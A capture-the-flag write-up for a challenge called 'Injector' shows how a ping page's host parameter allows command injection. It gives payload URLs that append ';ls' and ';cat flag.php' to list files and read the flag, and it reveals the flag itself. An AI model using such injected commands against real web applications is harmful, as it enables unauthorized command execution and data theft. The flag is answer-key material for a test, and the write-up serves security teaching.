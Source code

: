 # Injector
## Statement
> Find the flag for this website

Author: **@skyv3il**

Login: http://34.159.73.xxx:30121/

## Analysis

When reaching the first page we see that a parameter `host=127.0.0.1` is set and the command ping is proceed on it.

We may think that we have access to what is run on this `index.php` file.

The code should look like something like that: `ping($host);` what we may try to do is launch something like this 

By using `;ls`for the host parameter, we see that first the ls command is launched and there are two files in the current directory: flag.php & index.php.

Payload: `http://34.159.73.xxx:30121/index.php?host=;ls`

## Exploitation

We change the parameter to `;cat flag.php`, reaching this link: `http://34.159.73.xxx:30121/index.php?host=;cat%20flag.php` and we get the flag in the source code:

```php
<!--?php


//CTF{C0mm4nd_1nj3c5i0n_1s_E4sy}


?-->
```

Flag: **CTF{C0mm4nd_1nj3c5i0n_1s_E4sy}**